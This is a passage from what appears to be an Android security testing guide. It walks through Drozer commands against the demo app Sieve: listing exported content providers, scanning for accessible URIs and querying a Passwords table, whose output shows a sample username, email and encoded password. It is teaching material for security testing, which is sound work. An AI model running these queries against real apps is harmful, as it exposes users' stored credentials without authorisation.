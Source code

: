 ```bash
dz> run app.provider.info -a com.mwr.example.sieve
  Package: com.mwr.example.sieve
  Authority: com.mwr.example.sieve.DBContentProvider
  Read Permission: null
  Write Permission: null
  Content Provider: com.mwr.example.sieve.DBContentProvider
  Multiprocess Allowed: True
  Grant Uri Permissions: False
  Path Permissions:
  Path: /Keys
  Type: PATTERN_LITERAL
  Read Permission: com.mwr.example.sieve.READ_KEYS
  Write Permission: com.mwr.example.sieve.WRITE_KEYS
  Authority: com.mwr.example.sieve.FileBackupProvider
  Read Permission: null
  Write Permission: null
  Content Provider: com.mwr.example.sieve.FileBackupProvider
  Multiprocess Allowed: True
  Grant Uri Permissions: False
```

In this example, two content providers are exported. Both can be accessed
without permission, except for the `/Keys` path in the `DBContentProvider`. With
this information, you can reconstruct part of the content URIs to access the
`DBContentProvider` (the URIs begin with `content://`).

To identify content provider URIs within the application, use Drozer's
`scanner.provider.finduris` module. This module guesses paths and determines
accessible content URIs in several ways:

```bash
dz> run scanner.provider.finduris -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/
...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/Keys
Accessible content URIs:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

Once you have a list of accessible content providers, try to extract data from
each provider with the `app.provider.query` module:

```bash
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w== (Base64 - encoded)
email: incognitoguy50@gmail.com
```
